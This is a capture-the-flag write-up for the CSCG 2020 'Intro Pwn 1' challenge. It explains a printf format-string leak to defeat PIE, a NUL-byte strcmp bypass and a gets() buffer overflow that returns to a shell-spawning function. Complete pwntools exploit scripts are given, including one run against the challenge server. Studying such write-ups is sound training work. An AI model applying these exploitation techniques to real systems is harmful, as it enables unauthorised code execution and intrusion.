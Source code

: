 # Intro Pwn 1
This was one of the pwnable challenges of the CSCG 2020.
We're given a binary and its source code to work with.

There are 3 important Functions defined in the source :
```c
void welcome() {
    char read_buf[0xff];
    printf("Enter your witch name:\n")
    gets(read_buf);
    printf("┌───────────────────────┐\n");
    printf("│ You are a Hufflepuff! │\n");
    printf("└───────────────────────┘\n");
    printf(read_buf);
}
```

```c
void AAAAAAAA() {
    char read_buf[0xff];

    printf(" enter your magic spell:\n");
    gets(read_buf);
    if(strcmp(read_buf, "Expelliarmus") == 0) {
        printf("~ Protego!\n");
    } else {
        printf("-10 Points for Hufflepuff!\n");
        _exit(0);
    }
}
```

```c
void WINgardium_leviosa() {
    printf("┌───────────────────────┐\n");
    printf("│ You are a Slytherin.. │\n");
    printf("└───────────────────────┘\n");
    system("/bin/sh");
}
```
The first two are called by main and the third function is our goal, because
it executes `system("/bin/sh")` which gives us a shell to cat the flag with.
(also the capitalized WIN in the name gives you a clue).

____
## Exploitation ideas

First of all I ran `checksec` on it to know whether or not we deal with a aslr binary...

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   80 Symbols     No       0               2       pwn1
```
... and we sure do.

Then I looked at the functions :
* `welcome` calls `gets` which is always a bad sign, but it did not seem to be exploitable at this time, because we don't know the address of `WINgardium_leviosa`
* `welcome` also called `printf` with our input, which lets us leak (or even write to) values on the stack through a format string exploit.
* `AAAAAAAA` also calls `gets` but compares the output of it and only returns if we enter the right input

(`gets` can give us control over the instruction pointer, by inputting more, that the buffer bounds,
  which will overwrite the stack, and if we write enough, will overwrite the return pointer, which will
  be poped and jumped to if we return. The `exit` function doesn't return, which causes the current
  function to also not return, and thus not pop our value. So we have to avoid a call to that function if
  we want to exploit this)

## Exploitation
So the first exploitable thing is the format string. We don't have any address we can write to yet, so the
only thing we can do is leak. We somehow need to get the address of `WINgardium_leviosa`. A way how we
can do this is by somehow leaking some address pointing to code (a return value or something like that)
and then adding the needed offset to get to the `WINgardium_leviosa` function.

So the path is clear. I first ran the binary in gdb and inputted a standard leaking format string
`%p|%p|%p|%p|...|%p` as the name.
As a result I got :
```bash
Enter your witch name:
%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%
p|%p|%p|%p|%p|%p|%p|%p|%p|
┌───────────────────────┐
│ You are a Hufflepuff! │
└───────────────────────┘
0x7ffff7f60583|(nil)|0x7ffff7e90567|0x4c|(nil)|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c70257c70|0x
70257c70257c7025|0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c702
57c70|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025|0x257c70257c70257c|0x7c7
0257c70257c70|0x70257c70257c7025|0x7f007c70257c|(nil)|(nil)|(nil)|(nil)|(nil)|0x7ffff7fcf218|(nil)|0x20000
00000|(nil)|(nil)|0x7fff00000000|(nil)|0x24c9464ad16a3200|(nil)|0x5555555549e9|0x7fffffffdd80|0x555555554b
21|0x7fffffffde78|0x100000000|(nil)|0x7ffff7dc7023|0x71| enter your magic spell:

```
The code section is `0x555555554000  -  0x555555555000`. So in our leak we are looking for addresses
matching that range. The first address we find matching the range is `0x555555554b21` (being the 39th
leak)
With gdb I looked what this address was and found out that this is probably the return address of the
current function.
```
pwndbg> x/10i 0x555555554b21 - 5
   0x555555554b1c <main+40>:    call   0x555555554a23 <welcome>
   0x555555554b21 <main+45>:    mov    eax,0x0
   0x555555554b26 <main+50>:    call   0x555555554a89 <AAAAAAAA>
```
We now need to calculate the offset of the `WINgardium_leviosa` function to our leak.
```
pwndbg> p WINgardium_leviosa
$1 = {<text variable, no debug info>} 0x5555555549ec <WINgardium_leviosa>
```

```python
>>> hex(0x5555555549ec - 0x555555554b21)
'-0x135'
```

The next exploitable vulnerability, is the `gets` call in the `AAAAAAAA` function. But to get to the
return we need to get around the check of the input.
The `strcmp` function compares two NULL terminated C strings.
The `gets` function reads input until we send a newline character. This newline character is then
replaced by a NULL byte.
So the bug here is, that we can send a NULL byte without `gets` stopping the reading. `strcmp` then
ignores everything after this NULL byte, as it thinks, that the string is terminated here. So we can send
input longer than the `Expelliarmus` string by starting the string with `Expelliarmus\0`.
From this point on I used a python script using [pwntools](https://pypi.org/project/pwntools/).
```python
from pwn import *

p = process("./pwn1")
p.sendline("|".join(["%p"]*70)) # Format string exploit

p.readline() # reading the Hufflepuff banner
p.readline()
p.readline()
p.readline()

leaks = p.readline().decode("utf-8").split("|") # read the leaked values
print(leaks)
leak_addr = int(leaks[38],16) # get the leaked return address
print(hex(leak_addr))

win = leak_addr - 0x135 # calculate the address of WINgardium_leviosa
print(hex(win))

input() # stop the script until we press enter to attach gdb
p.sendline(b"Expelliarmus\0" + cyclic(400))

p.interactive()
```
If we run this script (with `gdb` attached), we can see, that the script crashes, because it wants to
return to `0x7ffefcb33bf8` (`cnaa` as a string). We can now locate that string in our input and place the
address of `WINgardium_leviosa` there to call it when trying to return.

```python
...

win = leak_addr - 0x135 # calculate the address of WINgardium_leviosa
print(hex(win))

input() # stop the script until we press enter to attach gdb
p.sendline(b"Expelliarmus\0" + b"A" * cyclic_find(b"cnaa") + p64(win))

p.interactive()
```
This script works locally and you get a shell, but if you try to exploit the server with that you get a
EOF before the shell is spawned. This most probably means, that the remote process crashed. This can
sometimes happen, when the stack is not properly aligned. To fix this we need to pop one (or more) values
from the stack. And this can be done, by simply adding the address of a ret instruction in front of the
win address. This will execute this ret instruction and pop the next value (the win address) to jump to,
with the stack having one element less.

For the ret instruction I used the one at the end of `AAAAAAAA` and calculated the offset to our leak
(-0x2e) and ajusted the script :
```python
from pwn import *

p = remote("hax1.allesctf.net",9100) # connect to the challenge sever

p.sendline("|".join(["%p"]*70)) # Format string exploit

p.readline() # reading the Hufflepuff banner
p.readline()
p.readline()
p.readline()

leaks = p.readline().decode("utf-8").split("|") # read the leaked values

leak_addr = int(leaks[38],16) # get the leaked return address

ret = leak_addr - 0x2e # calculate the address of an ret instruction

win = leak_addr - 0x135 # calculate the address of WINgardium_leviosa

p.sendline(b"Expelliarmus\0" + b"A" * cyclic_find(b"cnaa") + p64(ret) + p64(win))

p.interactive()
```

```bash
$ python pwnit.py
[+] Opening connection to hax1.allesctf.net on port 9100: Done
[*] Switching to interactive mode
~ Protego!
┌───────────────────────┐
│ You are a Slytherin.. │
└───────────────────────┘
$ cat flag
CSCG{NOW_PRACTICE_MORE}
```
